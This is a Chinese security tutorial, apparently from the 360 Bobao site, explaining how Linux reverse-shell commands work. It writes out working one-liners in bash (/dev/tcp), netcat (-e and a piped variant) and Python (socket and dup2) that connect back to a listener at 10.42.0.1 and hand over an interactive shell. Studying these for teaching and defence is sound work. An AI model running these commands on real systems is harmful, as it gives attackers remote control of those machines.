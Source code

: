 
# 【技术分享】Linux渗透之反弹Shell命令解析


                                阅读量   
                                **359920**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



****

[![](./img/85712/t01017ce70b818b72c6.jpg)](./img/85712/t01017ce70b818b72c6.jpg)

作者：[派大星](http://bobao.360.cn/member/contribute?uid=1009682630)

稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

当我们在渗透Linux主机时，反弹一个交互的shell是非常有必要的。在搜索引擎上搜索关键字“Linux 反弹shell”，会出现一大堆相关文章，但是其内容不但雷同，而且都仅仅是告诉我们执行这个命令就可以反弹shell了，却没有一篇文章介绍这些命令究竟是如何实现反弹shell的。既然大牛们懒得科普，那我就只好自己动手了。本文就来探讨一下相关命令实现的原理。

<br>

**Bash**

这篇文章的起因就是网上给的Bash反弹shell的实现：

```
bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1
```

看到这短短的一行代码，正在复习Linux，自我感觉良好的我顿时充满了挫败感，这都是些什么鬼。于是决定一定要搞明白它。

首先，bash -i是打开一个交互的bash，这个最简单。我们先跳过“&gt;&amp;”和“0&gt;&amp;1”，这两个是本文重点，等会再说。先来说“/dev/tcp/”。

 /dev/tcp/是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

要想了解“&gt;&amp;”和“0&gt;&amp;1”，首先我们要先了解一下Linux文件描述符和重定向。

linux shell下常用的文件描述符是：

1.  标准输入   (stdin) ：代码为 0 ，使用 &lt; 或 &lt;&lt; ； 

2.  标准输出   (stdout)：代码为 1 ，使用 &gt; 或 &gt;&gt; ； 

3.  标准错误输出(stderr)：代码为 2 ，使用 2&gt; 或 2&gt;&gt;。

很多资料都会告诉我们，2&gt;&amp;1是将标准错误输出合并到标准输出中，但是这四个符号具体要如何理解呢？我刚开始直接将2&gt;看做标准错误输出，将&amp;看做and，将1看做标准输出。这样理解好像也挺对，但是如果是这样的话0&gt;&amp;1又该如何理解呢？

其实&amp;根本就不是and的意思，学过C/C++的都知道，在这两门语言里，&amp;是取地址符。在这里，我们也可以将它理解为取地址符。

好了，基本知识说完了，下面我们就探讨一下困扰了我一天的“&gt;&amp;”究竟是什么意思。首先，我在查资料的过程中虽然没有查到“&gt;&amp;”究竟是什么，但是有一个跟它长得很像的符号却被我发现了，那就是“&amp;&gt;”，它和“2&gt;&amp;1”是一个意思，都是将标准错误输出合并到标准输出中。难道“&gt;&amp;”和“&amp;&gt;”之间有什么不为人知的交易？让我们来动手测试一下。

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d09ef5a4c93903c5.png)

从图片中我们可以看到，在这里"&gt;&amp;"和“&amp;&gt;”作用是一样的，都是将标准错误输出定向到标准输出中。

既然如此，那么我们就把他俩互换试试看，究竟结果一不一样。

我在虚拟机里执行

```
bash -i &gt;&amp; /dev/tcp/10.0.42.1/1234
```

结果如下图所示，虽然命令和结果都在我本机上显示出来了，但实际上命令并不是在本机上输入的，而是只能在虚拟机里面输入，然后命令和结果都在我本机上显示。

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0195bf356bb24445bc.png)

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0197680e023bb7a93a.png)

我们再执行

```
bash -i &amp;&gt; /dev/tcp/10.42.0.1/1234
```

效果是一样的，就不上图了。所以由实践可知，“&gt;&amp;”和我们常见的“&amp;&gt;”是一个意思，都是将标准错误输出重定向到标注输出。

好了，一个问题已经解决，下一个就是“0&gt;&amp;1”。我们都知道，标准输入应该是“0&lt;”而不是“0&gt;”，难道这个跟上一个问题样都是同一个命令的不同写法？让我们试一下“0&lt;&amp;1”，看看会发生什么。

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0123d89cb804d2a924.png)

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01244d1b4b79c996ec.png)

在上图中我们得到了一个交互的shell。果然是这样！“0&gt;&amp;1”和“0&lt;&amp;1”是一个意思，都是将标准输入重定向到标准输出中。使用

```
bash -i &amp;&gt; /dev/tcp/10.42.0.1 0&lt;&amp;1
```

同样能反弹一个可交互的shell。

综上所述，这句命令的意思就是，创建一个可交互的bash和一个到10.42.0.1:1234的TCP链接，然后将bash的输入输出错误都重定向到在10.42.0.1:1234监听的进程。

<br>

**NetCat**

如果目标主机支持“-e”选项的话，我们就可以直接用

```
nc -e /bin/bash 10.42.0.1 1234
```

但当不支持时，我们就要用到Linux神奇的管道了。我们可以在自己机器上监听两个端口，

```
nc -l -p 1234 -vv
nc -l -p 4321 -vv
```

然后在目标主机上执行以下命令：

```
nc  10.42.0.1 1234  |  /bin/bash  |  nc 10.42.0.1 4321
```

这时我们就可以在1234端口输入命令，在4321端口查看命令的输出了。

管道“|”可以将上一个命令的输出作为下一个命令的输入。所以上面命令的意思就是将10.42.0.1:1234传过来的命令交给/bin/bash执行，再将执行结果传给10.42.0.1:4321显示。

<br>

**Python**

```
python -c 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.42.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);'
```

python -c表示执行后面的代码。首先引入了三个库socket,subprocess,os，这三个库后面都要用到，然后创建了一个使用TCP的socket，接着执行connect函数连接到黑客主机所监听的端口。接着执行os库的dup2函数来进行重定向。dup2传入两个文件描述符，fd1和fd2（fd1是必须存在的），如果fd2存在，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，fd2这个文件描述符不会发生变化，但是fd2指向的文件就变成了fd1指向的文件。 这个函数最大的作用是重定向。三个dup2函数先后将socket重定向到标准输入，标准输入，标准错误输出。最后建立了一个子进程,传入参数“-i”使bash以交互模式启动。这个时候我们的输入输出都会被重定向到socket，黑客就可以执行命令了。

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0158e660feffec976e.png)

[![](./img/85712/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012e645a86f77299e7.png)

我们可以看到成功的弹回了一个shell。<br>

<br>

**总结**

在对信息安全的学习中，我们要时刻保持好奇心，多问为什么，要多去探究根本原理，而不是只会使用工具和死记硬背，遇到不会又搜不到答案的问题，我们要大胆猜想，小心求证，只有这样我们才能不断的进步，在信息安全的领域越走越远。
